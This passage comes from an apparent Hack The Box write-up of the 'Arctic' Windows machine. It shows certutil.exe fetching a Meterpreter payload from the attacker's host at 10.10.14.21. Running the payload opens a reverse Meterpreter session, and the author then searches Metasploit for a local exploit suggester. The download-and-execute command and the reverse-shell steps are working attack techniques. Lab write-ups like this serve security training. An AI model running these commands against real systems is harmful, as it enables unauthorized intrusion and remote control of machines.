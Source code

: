 Since I have not been lucky with the powershell today, I have two options. Either upload with the web page like I’ve done before. Or we can circumvent the 30 second wait for each page, and just use: `certutil.exe -urlcache -split -f http://10.10.14.21:80/meter.exe meter.exe`

```
C:\ColdFusion8\wwwroot\CFIDE>
certutil.exe -urlcache -split -f http://10.10.14.21:80/meter.exe meter.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```
And then:

```
C:\ColdFusion8\wwwroot\CFIDE>meter.exe
meter.exe
```

Hallelujah:

```
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.129.49.137
[*] Meterpreter session 1 opened (10.10.14.21:5555 -> 10.129.49.137:51549) at 2021-01-21 14:36:41 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : ARCTIC
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

From my earlier research, I knew of some exploits to use. But I’m just gonna check the local_exploit_suggester to make sure, and get some practice using it.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search sugges

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  auxiliary/server/icmp_exfil                                            normal     No     ICMP Exfiltration Service
   1  exploit/windows/browser/ms10_018_ie_behaviors         2010-03-09       good       No     MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   2  exploit/windows/http/sharepoint_data_deserialization  2020-07-14       excellent  Yes    SharePoint DataSet / DataTable Deserialization
   3  exploit/windows/smb/timbuktu_plughntcommand_bof       2009-06-25       great      No     Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   4  post/multi/recon/local_exploit_suggester                               normal     No     Multi Recon Local Exploit Suggester
   5  post/osx/gather/enum_colloquy                                          normal     No     OS X Gather Colloquy Enumeration
   6  post/osx/manage/sonic_pi                                               normal     No     OS X Manage Sonic Pi
```